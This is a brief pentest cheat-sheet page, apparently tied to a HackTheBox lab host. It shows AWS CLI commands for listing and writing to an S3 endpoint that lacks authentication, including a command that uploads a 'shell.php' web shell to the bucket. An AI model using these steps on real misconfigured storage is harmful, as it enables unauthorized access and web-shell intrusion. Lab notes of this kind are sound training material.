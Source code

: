 # AWS

## Usage

If the server does not check for authentication, we can put anything before connecting.

```bash
aws configure
```

{% tabs %}
{% tab title="Listing Buckets" %}
```bash
aws --endpoint=http://s3.thetoppers.htb s3 ls
```
{% endtab %}

{% tab title="Listing Objects" %}
```bash
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```
{% endtab %}

{% tab title="Upload" %}
```bash
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```
{% endtab %}
{% endtabs %}

## Resources

{% tabs %}
{% tab title="awscli" %}
{% embed url="https://github.com/aws/aws-cli" %}
{% endtab %}
{% endtabs %}
